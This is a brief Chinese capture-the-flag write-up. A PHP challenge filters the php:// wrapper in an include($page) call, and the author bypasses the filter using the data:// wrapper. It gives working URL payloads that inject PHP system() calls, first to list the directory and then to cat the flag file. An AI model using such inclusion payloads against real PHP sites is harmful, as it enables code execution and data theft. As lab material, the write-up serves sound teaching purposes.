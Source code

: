 ![img](./assets/wps593.jpg)

分析源码

题目源码中试图过滤 php:// 伪协议以及调用 +文件包含。 可以绕过 include($page) 

这实际上是在提示：利用PHP伪协议 除php:// 伪协议过滤以外的还有data://伪协议

 

构造payload：

/?page=data://text/plain,<?system('ls -l');?>

![img](./assets/wps594.jpg) 

得到目录信息

访问

fl4gisisish3r3.php 

 

/?page=data://text/plain,<?system('cat 

fl4gisisish3r3.php ');?>

 

查看源码，得到flag

![img](./assets/wps595.jpg) 

 

 
